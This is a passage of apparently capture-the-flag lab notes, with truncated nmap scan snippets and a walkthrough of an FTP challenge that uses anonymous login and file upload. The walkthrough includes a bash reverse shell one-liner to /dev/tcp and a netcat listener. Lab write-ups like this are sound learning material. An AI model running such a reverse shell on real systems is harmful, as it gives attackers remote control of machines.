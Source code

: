 ```
-p-
```
Scan using TCP and performing version fingerprinting:
```
-p-
```
## Ressources
[NSE Doc Reference Portal](https://nmap.org/nsedoc/): List of NSE scripts<br>
[The Penetration Testing Execution Standard](http://www.pentest-standard.org/index.php/Main_Page): 
Penetration testing methodology<br>

# Anyone can be Santa
## Topic and concepts
FTP, No credentials, FTP over terminal, Exploit search.<br>
* `FileZilla`
* FTP servers
* FTP Connections
* Connection ports
* Anonymous mode
## Walkthrough
Access a FTP server:
```
ftp <ip>
```
Check if anonymous mode is enabled: typing
```
anonymous
```
when prompted for the name.<br>
Download a file from FTP server to the local device:
```
get
```
Upload a file from the local device to FTP server
```
put
```
Generat a shell :
```
bash -i >& /dev/tcp/<my-ip-address>/4444 0>&1
```
4444 being a trivial port number.<br>
Catch the connection to get reverse shell:
```
nc -lvnp 4444
```
## Ressources
[PayloadsAllTheThings/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp): 
Pentesterts cheatsheet<br>
